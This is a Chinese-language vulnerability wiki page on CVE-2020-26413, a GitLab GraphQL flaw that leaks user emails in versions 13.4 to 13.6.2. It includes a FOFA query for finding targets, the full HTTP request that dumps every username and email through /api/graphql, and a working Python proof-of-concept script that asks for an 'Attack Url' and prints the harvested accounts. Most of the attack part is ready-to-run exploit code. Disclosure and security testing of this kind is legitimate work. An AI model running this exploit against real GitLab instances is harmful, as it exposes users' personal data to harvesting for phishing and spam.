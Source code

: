 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

> [!NOTE]
>
> GitLab 13.4 - 13.6.2

## FOFA

> [!NOTE]
>
> title="GitLab"

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告 

https://gitlab.com/gitlab-org/gitlab/-/issues/244275

![](http://wikioss.peiqi.tech/vuln/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer

![](http://wikioss.peiqi.tech/vuln/gitlab-2.png)

Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱

![](http://wikioss.peiqi.tech/vuln/gitlab-3.png)

发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![](http://wikioss.peiqi.tech/vuln/gitlab-4.png)

成功返回数据，造成 Gitlab的用户邮箱信息泄露

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/gitlab-5.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> GitLab_Graphql_Email_information_disclosure.json

![](http://wikioss.peiqi.tech/vuln/gitlab-6.png)

